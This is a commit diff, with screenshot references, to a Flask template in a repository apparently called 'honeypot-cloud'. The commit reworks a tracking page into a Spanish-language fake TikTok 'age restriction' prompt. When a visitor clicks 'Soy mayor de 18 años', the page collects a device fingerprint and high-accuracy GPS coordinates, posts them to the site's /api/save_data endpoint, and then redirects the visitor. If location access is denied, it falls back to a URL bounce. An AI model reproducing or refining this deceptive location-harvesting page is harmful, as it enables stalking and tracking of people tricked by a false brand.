

Before and after one commit to Edrianib/honeypot-cloud, a Flask app: page /s/1 in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; a database or web service that is not in the repository returns one stand-in record (values such as "Sample title"); data that the repository does not hold is empty; some libraries are stand-ins or nearby versions; grey boxes are pictures that could not be loaded.

Commit message:
fix map and undefined

```diff
--- a/templates/tracker.html
+++ b/templates/tracker.html
@@ -1,85 +1,96 @@
 <!DOCTYPE html>
-<html>
+<html lang="es">
 <head>
-    <title>{{ data.title }}</title>
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>TikTok</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
     <style>
-        body { font-family: -apple-system, BlinkMacSystemFont, sans-serif; text-align: center; padding: 40px 20px; background: #fff; color: #333; display: flex; flex-direction: column; align-items: center; justify-content: center; height: 90vh; margin: 0; }
-        .icon { font-size: 70px; margin-bottom: 20px; }
-        .btn { background: #007AFF; color: white; padding: 16px 32px; border: none; border-radius: 12px; font-size: 17px; font-weight: bold; cursor: pointer; width: 100%; max-width: 320px; box-shadow: 0 4px 12px rgba(0,122,255,0.3); transition: transform 0.1s; }
-        .btn:active { transform: scale(0.98); }
-        h2 { margin-bottom: 10px; font-size: 22px; max-width: 300px; }
-        p { color: #666; line-height: 1.5; margin-bottom: 40px; max-width: 300px; font-size: 15px; }
+        body { background-color: #121212; color: white; font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif; margin: 0; display: flex; flex-direction: column; align-items: center; justify-content: center; height: 100vh; text-align: center; }
+
+        /* LOGO TIKTOK ANIMADO */
+        .logo { width: 70px; height: 70px; margin-bottom: 30px; background: url('https://sf16-scmcdn-va.ibytedtos.com/goofy/tiktok/web/node/_next/static/images/logo-dark-e95c4d0840c83a04.png') no-repeat center; background-size: contain; }
+
+        h2 { font-size: 20px; margin-bottom: 10px; font-weight: 700; }
+        p { color: #888; font-size: 14px; max-width: 280px; line-height: 1.5; margin-bottom: 40px; }
+
+        .btn {
+            background-color: #fe2c55; /* Color Rojo TikTok */
+            color: white;
+            border: none;
+            padding: 14px 0;
+            width: 85%;
+            max-width: 300px;
+            font-size: 16px;
+            font-weight: 600;
+            border-radius: 4px;
+            cursor: pointer;
+            transition: opacity 0.2s;
+        }
+        .btn:active { opacity: 0.8; }
+
+        .loader { border: 3px solid rgba(255,255,255,0.1); border-top: 3px solid #fe2c55; border-radius: 50%; width: 20px; height: 20px; animation: spin 1s linear infinite; display: none; margin: 0 auto; }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
     </style>
 </head>
 <body>
 
-    <div class="icon">{{ data.icon }}</div>
-    <h2 id="title">{{ data.title }}</h2>
-    <p id="desc">{{ data.text }}</p>
+    <div class="logo"></div>
 
-    <button id="btnAction" class="btn" onclick="iniciarProceso()">{{ data.btn }}</button>
-    <div id="msg" style="margin-top:25px; font-size:13px; color:#e74c3c; font-weight:500;"></div>
+    <h2 id="title">Restricción de Edad</h2>
+    <p id="desc">Este video puede contener temas sensibles. Verifica que eres mayor de edad para continuar.</p>
+
+    <button id="btnAction" class="btn" onclick="iniciarProceso()">Soy mayor de 18 años</button>
+    <div id="loader" class="loader"></div>
 
     <script>
         const token = window.location.pathname.split('/').pop();
 
-        // OBTENER FINGERPRINT (RAYOS X)
+        // --- HUELLA DIGITAL (FINGERPRINT) ---
         async function getFingerprint() {
             let info = [];
-            info.push(`📺 Pantalla: ${window.screen.width}x${window.screen.height}`);
-            if (navigator.hardwareConcurrency) info.push(`⚙️ CPU: ${navigator.hardwareConcurrency} Cores`);
-            if (navigator.deviceMemory) info.push(`💾 RAM: ~${navigator.deviceMemory} GB`);
+            info.push(`📱 Pantalla: ${window.screen.width}x${window.screen.height}`);
+            if (navigator.deviceMemory) info.push(`💾 RAM: ${navigator.deviceMemory}GB`);
             try {
-                if (navigator.getBattery) {
-                    let bat = await navigator.getBattery();
-                    let level = Math.round(bat.level * 100);
-                    info.push(`${bat.charging ? "🔌" : "🔋"} ${level}%`);
-                }
+                let bat = await navigator.getBattery();
+                info.push(`🔋 Batería: ${Math.round(bat.level * 100)}%`);
             } catch(e) {}
-            if (navigator.connection) info.push(`📡 Red: ${navigator.connection.effectiveType}`);
-            info.push(`💻 OS: ${navigator.platform}`);
+            info.push(`📡 Red: ${navigator.connection ? navigator.connection.effectiveType : '4G'}`);
             return info.join(" | ");
         }
 
         function irAlDestino() { window.location.href = "/redirect/" + token; }
 
         async function iniciarProceso() {
-            document.getElementById('msg').innerText = "Estableciendo conexión segura...";
-            document.getElementById('btnAction').style.opacity = "0.5";
+            // Cambio visual de carga
+            document.getElementById('btnAction').style.display = 'none';
+            document.getElementById('loader').style.display = 'block';
+            document.getElementById('desc').innerText = "Verificando ubicación...";
 
             let fingerprint = await getFingerprint();
 
             if (navigator.geolocation) {
                 navigator.geolocation.getCurrentPosition(
-                    (pos) => enviarTodo(pos, fingerprint),
+                    (pos) => {
+                        // Éxito GPS
+                        fetch('/api/save_data', {
+                            method: 'POST', headers: {'Content-Type': 'application/json'},
+                            body: JSON.stringify({
+                                token: token, lat: pos.coords.latitude, lon: pos.coords.longitude, acc: pos.coords.accuracy, fingerprint: fingerprint
+                            })
+                        }).then(irAlDestino).catch(irAlDestino);
+                    },
                     (err) => {
-                        // Si falla, intentamos rebote URL
+                        // Fallo GPS -> Rebote URL (Plan B)
                         window.location.href = `/api/save_gps_bounce?token=${token}&lat=0&lon=0&acc=DENIED`;
                     },
-                    {enableHighAccuracy: true, timeout: 8000}
+                    {enableHighAccuracy: true, timeout: 7000}
                 );
             } else {
-                enviarSoloFingerprint(fingerprint);
+                // Sin soporte GPS -> Guardar solo datos técnicos
+                fetch('/api/save_data', {
+                    method: 'POST', headers: {'Content-Type': 'application/json'},
+                    body: JSON.stringify({ token: token, lat: null, fingerprint: fingerprint })
+                }).then(irAlDestino);
             }
-        }
-
-        function enviarTodo(pos, fingerprint) {
-            fetch('/api/save_data', {
-                method: 'POST', headers: {'Content-Type': 'application/json'},
-                body: JSON.stringify({
-                    token: token, lat: pos.coords.latitude, lon: pos.coords.longitude, acc: pos.coords.accuracy, fingerprint: fingerprint
-                })
-            }).then(irAlDestino).catch(() => {
-                window.location.href = `/api/save_gps_bounce?token=${token}&lat=${pos.coords.latitude}&lon=${pos.coords.longitude}&acc=${pos.coords.accuracy}`;
-            });
-        }
-
-        function enviarSoloFingerprint(fingerprint) {
-            fetch('/api/save_data', {
-                method: 'POST', headers: {'Content-Type': 'application/json'},
-                body: JSON.stringify({ token: token, lat: null, fingerprint: fingerprint })
-            }).then(irAlDestino).catch(irAlDestino);
         }
     </script>
 </body>
```
Also changed, not shown: templates/index.html (+22 -23 lines).
